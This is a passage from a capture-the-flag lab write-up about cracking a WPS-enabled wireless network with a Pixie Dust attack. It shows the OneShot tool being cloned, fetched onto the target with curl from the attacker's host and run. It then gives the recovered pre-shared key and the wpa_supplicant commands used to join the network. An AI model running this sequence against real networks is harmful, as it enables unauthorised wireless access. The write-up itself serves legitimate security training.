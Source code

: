 So looking at this output we can see that this wireless network is using WPS version on. WPS protocol is notoriously badly secured and is vulnerable to a bunch of common vulnerabilities. The first that came to mind is to try a pixidust attack. If this attack is successfull its possible to obtain the preshared key of this wifi network. There are many different Tools that can do this but i decided to go for an implementation of the attack written in python. The exploit code can be found [here](https://github.com/kimocoder/OneShot).

Download the git repo onto our machine first.

```bash
git clone https://github.com/kimocoder/OneShot.git
```

next setup a local webserver so we can download this file onto our target machine


```bash
curl http://10.10.16.98/oneshot.py -o oneshot.py
python3 oneshot.py  -i wlan0 -b 02:00:00:00:01:00 
```

After running this exploit we could see that the preshared key was **NoWWEDoKnowWhaTisReal123!**

![Wifi password leaked](/assets/img/WifineticTwo/WifineticTwo_06.png)


So now that we have the wifi password we need to connect to this network. We can do this with wpa_supplicant. First we need to make a valid wpa_supplicant config file. With the following command I was able to create a valid wpa_supplicant config as well as use it to connect with it.



```bash
wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > config
wpa_supplicant -B -c config -i wlan0
```
Next we set an ip address in the range of the wifi network.
